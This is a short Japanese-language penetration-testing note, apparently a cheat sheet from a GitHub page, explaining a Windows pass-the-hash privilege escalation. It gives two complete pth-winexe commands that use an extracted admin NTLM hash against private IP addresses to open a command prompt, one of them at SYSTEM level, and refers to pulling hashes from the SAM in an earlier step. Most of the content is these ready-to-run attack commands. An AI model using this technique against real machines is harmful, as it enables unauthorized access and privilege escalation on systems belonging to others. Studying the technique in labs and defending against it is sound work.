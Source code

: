 Windowsは多くのサービスでパスワードの代わりにハッシュを認証に使用します。 winexeの修正版であるpth-winexeを使って、adminユーザーのハッシュを使用してコマンドプロンプトを起動することができます。   
# Privilege Escalation
1. 前のステップでSAMからadminハッシュを抽出する
2. pth-winexeでハッシュを使用し、コマンドプロンプトを起動します。
```
# pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.100.178 cmd.exe
```
3. pth-winexeでハッシュを使用し、SYSTEMレベルのコマンドプロンプトを生成します。
```
# pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe
```